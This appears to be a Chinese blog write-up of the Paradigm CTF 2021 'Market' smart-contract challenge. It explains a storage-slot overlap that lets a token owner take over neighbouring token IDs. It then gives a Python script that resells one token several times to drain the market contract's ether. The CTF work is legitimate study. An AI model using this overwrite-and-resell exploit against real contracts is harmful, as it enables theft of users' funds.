 ```yaml
---
layout: post
title:  "Paradigm 2021 Market题解"
date:   2021-07-19 11:07:32 +0800
categories: paradigm
---
```

### 分析
1. 给了3个合约，1个token，1个market，1个storage
2. token拥有storage，market是token的minter
3. setup一开始给4个无解地址各自mint了不同价值的token，分析发现这些动不得
4. storage有点意思，直接存

```
stor[tokenId]: Name
stor[tokenId+1]: Owner
stor[tokenId+2]: Approval
stor[tokenId+3]: Metadata
```
5. 那拥有一个token之后，可以修改Name、Metadata为player，进而拥有了token-1和token+2，Approval好像不行，因为在转账的时候会置零

### 解题
1. 付钱mint，获得一个token
2. 修改Name，获得token-1
3. 卖掉token
4. 修改token-1的Approval，获得token
5. 卖掉token
...

如此一来可以多次卖掉token，目标是清空合约余额，一开始是50000000000000000000，买的时候会+value，同时price被定为value/1.1，要求price整除balance，即

```
(50000000000000000000 + value) % (value / 1.1) = 0
```
这个实在不好解，但是注意到我们可以多买（白花钱），所以差额可以直接补齐

```python
value = 55 * 10 ** 18
send_txn(market, func_encode('mintCollectible()', []), value)

tokenId = w3.sha3(hexstr=token[2:].ljust(40, '0')+'4'.zfill(64)).hex()[2:] # mint到第4个了
send_txn(eternal, func_encode('updateName(bytes32,bytes32)', [bytes.fromhex(tokenId), bytes.fromhex(player[2:].zfill(64))]), 0) # 获得tokenId-1的所有权
tokenId2 = hex(int(tokenId,16) - 1)[2:]

send_txn(eternal, func_encode('updateApproval(bytes32,address)', [bytes.fromhex(tokenId), market]), 0) # 授权可卖
send_txn(market, func_encode('sellCollectible(bytes32)', [bytes.fromhex(tokenId)]), 0) # 第一次卖，获得50 ether

send_txn(eternal, func_encode('updateApproval(bytes32,address)', [bytes.fromhex(tokenId2), player]), 0) # 拿回所有权
send_txn(eternal, func_encode('updateApproval(bytes32,address)', [bytes.fromhex(tokenId), market]), 0) # 授权可卖
send_txn(market, func_encode('sellCollectible(bytes32)', [bytes.fromhex(tokenId)]), 0) # 第二次卖，获得50 ether

value2 = 45 * 10 ** 18
send_txn(market, func_encode('mintCollectible()', []), value2) #补齐差价

send_txn(eternal, func_encode('updateApproval(bytes32,address)', [bytes.fromhex(tokenId2), player]), 0) # 拿回所有权
send_txn(eternal, func_encode('updateApproval(bytes32,address)', [bytes.fromhex(tokenId), market]), 0) # 授权可卖
send_txn(market, func_encode('sellCollectible(bytes32)', [bytes.fromhex(tokenId)]), 0) # 第三次卖，获得50 ether
```